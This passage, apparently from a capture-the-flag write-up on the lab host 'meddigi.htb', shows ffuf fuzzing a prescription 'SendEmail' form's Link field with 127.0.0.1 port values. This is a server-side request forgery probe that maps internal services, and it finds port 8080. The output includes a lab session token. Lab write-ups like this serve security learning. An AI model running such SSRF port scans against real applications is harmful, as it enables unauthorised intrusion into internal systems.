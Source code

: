             /'___\  /'___\           /'___\
           /\ \__/ /\ \__/  __  __  /\ \__/
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
             \ \_\   \ \_\  \ \____/  \ \_\
              \/_/    \/_/   \/___/    \/_/
    
           v2.0.0-dev
    ________________________________________________
    
     :: Method           : POST
     :: URL              : https://portal.meddigi.htb/Prescriptions/SendEmail
     :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Infrastructure/common-http-ports.txt
     :: Header           : Content-Type: application/x-www-form-urlencoded
     :: Header           : Cookie: access_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6IjciLCJlbWFpbCI6IjB4ZGYyQG1lZGRpZ2kuaHRiIiwibmJmIjoxNzA5MzIyMzM5LCJleHAiOjE3MDkzMjU5MzksImlhdCI6MTcwOTMyMjMzOSwiaXNzIjoiTWVkRGlnaSIsImF1ZCI6Ik1lZERpZ2lVc2VyIn0.ofzJS2ZE7OOwdsRRZ98daXdA8OkQ3kbEuNYEtRnZLR4
     :: Data             : Email=0xdf@meddigi.htb&Link=https://127.0.0.1:FUZZ
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: 200
    ________________________________________________
    
    :: Progress: [35/35] :: Job [1/1] :: 5 req/sec :: Duration: [0:00:08] :: Errors: 0 ::
    

On HTTP, it finds 8080:

    
    
    oxdf@hacky$ ffuf -d 'Email=0xdf@meddigi.htb&Link=http://127.0.0.1:FUZZ' -w /opt/SecLists/Discovery/Infrastructure/common-http-ports.txt -u 'https://portal.meddigi.htb/Prescriptions/SendEmail' -H 'Content-Type: application/x-www-form-urlencoded' -mc 200 -b "access_token=$token"
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v2.0.0-dev
    ________________________________________________
    
     :: Method           : POST
     :: URL              : https://portal.meddigi.htb/Prescriptions/SendEmail
     :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Infrastructure/common-http-ports.txt
     :: Header           : Content-Type: application/x-www-form-urlencoded
     :: Header           : Cookie: access_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6IjciLCJlbWFpbCI6IjB4ZGYyQG1lZGRpZ2kuaHRiIiwibmJmIjoxNzA5MzIyMzM5LCJleHAiOjE3MDkzMjU5MzksImlhdCI6MTcwOTMyMjMzOSwiaXNzIjoiTWVkRGlnaSIsImF1ZCI6Ik1lZERpZ2lVc2VyIn0.ofzJS2ZE7OOwdsRRZ98daXdA8OkQ3kbEuNYEtRnZLR4
     :: Data             : Email=0xdf@meddigi.htb&Link=http://127.0.0.1:FUZZ
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: 200
    ________________________________________________
    